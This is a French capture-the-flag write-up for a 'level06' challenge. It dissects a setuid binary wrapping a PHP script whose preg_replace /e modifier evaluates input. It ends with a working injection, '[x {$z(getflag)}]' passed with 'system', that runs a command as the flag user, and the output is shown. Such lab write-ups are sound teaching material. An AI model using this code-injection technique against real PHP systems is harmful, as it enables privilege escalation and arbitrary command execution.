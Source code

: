 # Level 06
Home:
```
$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

L'executable level06 sert juste à lancer /bin/php avec les bonnes permissions et prend deux paramètre optionel.

Mais le plus interresant est le fichier level06.php qui nous montre une petite faille de sécurité à cause d'eval sur la ligne 11 (flag `/e`).
```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
/*
Ligne 3-7 : La fonction y($m) est définie. Elle prend un paramètre $m qui est une chaîne de caractères. À l'intérieur de la fonction, deux appels à la fonction preg_replace sont effectués. Le premier appel remplace tous les points (.) par la chaîne de caractères " x ", et le deuxième appel remplace tous les caractères "@" par le caractère "y". Ensuite, la fonction retourne la valeur de $m modifiée.

Ligne 9-15 : La fonction x($y, $z) est définie. Elle prend deux paramètres, $y et $z. À l'intérieur de la fonction, le contenu du fichier spécifié par $y est lu à l'aide de la fonction file_get_contents et stocké dans la variable $a. Ensuite, plusieurs appels à la fonction preg_replace sont effectués pour modifier le contenu de $a. Le premier appel utilise une expression régulière pour rechercher des occurrences de "[x quelque_chose]" et les remplace par le résultat de l'appel à la fonction y("quelque_chose"). Les autres appels à preg_replace remplacent simplement les crochets "[" et "]" par des parenthèses "(" et ")". Enfin, la fonction retourne la valeur modifiée de $a.
*/
?>

```

Selon le doc des [String interpolation](https://wiki.php.net/rfc/deprecate_dollar_brace_string_interpolation), elle nous dit qu'on peut exécuter des fonctions que contiennent une variable.</Br>
Donc on a supposé qu'on pouvait exécuter n'importe quelle fonction contenue dans le variable `z` de la fonction `x`.

Voici le premier argument qu'on donne à l'exécutable `[x {$z(getflag)}]`, celle-ci récupère le contenu de `z` et exécute la avec comme argument `getflag` et comme deuxième argument la fonction qu'on veut `system`.

*La commande finale a exécuté:*
```sh
echo '[x {$z(getflag)}]' > /tmp/exploit; ./level06 /tmp/exploit 'system'
```
```
$ ./level06 /tmp/exploit system
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : xxx
```
